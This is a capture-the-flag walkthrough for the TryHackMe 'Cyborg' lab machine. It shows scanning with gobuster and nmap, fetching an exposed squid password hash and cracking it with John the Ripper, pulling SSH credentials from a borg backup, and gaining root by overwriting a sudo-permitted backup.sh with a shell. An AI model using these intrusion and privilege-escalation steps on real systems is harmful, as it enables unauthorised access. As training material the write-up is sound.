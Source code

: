 # [CYBORG | TryHackMe](https://tryhackme.com/room/cyborgt8)

 Compromise the machine and read the user.txt and root.txt

# SCANNING STEPS
## STEP 1 :

**- NO ROBOTS.TXT FOUND**

**- NOTHING ON SOURCE CODE**

Scanning url and paths

```bash
gobuster -u $IP -w $Wordlist
```
Found **2** Paths :

**/etc**

**/admin**

Scanning ports

```bash
nmap -p -sV -sC $ip
```

Found **2** Ports :


Scan the machine, how many ports are open?

**2**

What service is running on port 80?

**80 HTTP**



What service is running on port 22?

**22 SSH**

## STEP 2 :

Checking **/admin** path

Sensitive information Found 

```text
                ############################################
                ############################################
                [Yesterday at 4.32pm from Josh]
                Are we all going to watch the football game at the weekend??
                ############################################
                ############################################
                [Yesterday at 4.33pm from Adam]
                Yeah Yeah mate absolutely hope they win!
                ############################################
                ############################################
                [Yesterday at 4.35pm from Josh]
                See you there then mate!
                ############################################
                ############################################
                [Today at 5.45am from Alex]
                Ok sorry guys i think i messed something up, uhh i was playing around with the squid proxy i mentioned earlier.
                I decided to give up like i always do ahahaha sorry about that.
                I heard these proxy things are supposed to make your website secure but i barely know how to use it so im probably making it more insecure in the process.
                Might pass it over to the IT guys but in the meantime all the config files are laying about.
                And since i dont know how it works im not sure how to delete them hope they don't contain any confidential information lol.
                other than that im pretty sure my backup "music_archive" is safe just to confirm.
                ############################################
                ############################################
```


a mention of **my backup "music_archive"**

## STEP 3 :

Checking **/etc** path

Passwords found

```bash
curl -u $IP/etc/squid/passwd

music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.
```

**unhashing** the password using **John The Ripper**.

```bash
john hash.txt --wordlist=wordlist.txt

squidborg
```

## STEP 4 :

There was a download in the **/admin** path

```bash
http://10.10.107.46/admin/archive.tar
```

containes **Archives** and **music_backup**


# EXPLOITING STEPS :

Installing borg backup
## STEP 1 :
```bash
sudo apt install borgbackup -y
borg extract home/field/dev/final_archive/::music_archive
```

The password to extract was **squidborg**

```bash
-rw-r--r-- root   root         71 Tue, 2020-12-29 14:57:14 home/alex/Documents/note.txt

Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!

alex:S3cretP@s3
```

## STEP 2 :


Connecting to **SSH**

```bash
ssh alex@$ip
password : S3cretP@s3

ls
cat user.txt
```

**FOUND THE USER.TXT**

## STEP 3

Checking the sudo previleges 

```bash
sudo -l

(ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
```

We can access to **/etc/mp3backups/backup.sh**

Edit **backup.sh**
```bash
alex@ubuntu:/etc/mp3backups$ chmod +w backup.sh 
alex@ubuntu:/etc/mp3backups$ cat > backup.sh << EOF
> #!/bin/bash
> /bin/bash
> EOF
alex@ubuntu:/etc/mp3backups$ sudo /etc/mp3backups/backup.sh
root@ubuntu:/etc/mp3backups# cd /root
root@ubuntu:/root# cat root.txt
```

**FOUND THE ROOT.TXT KEY**










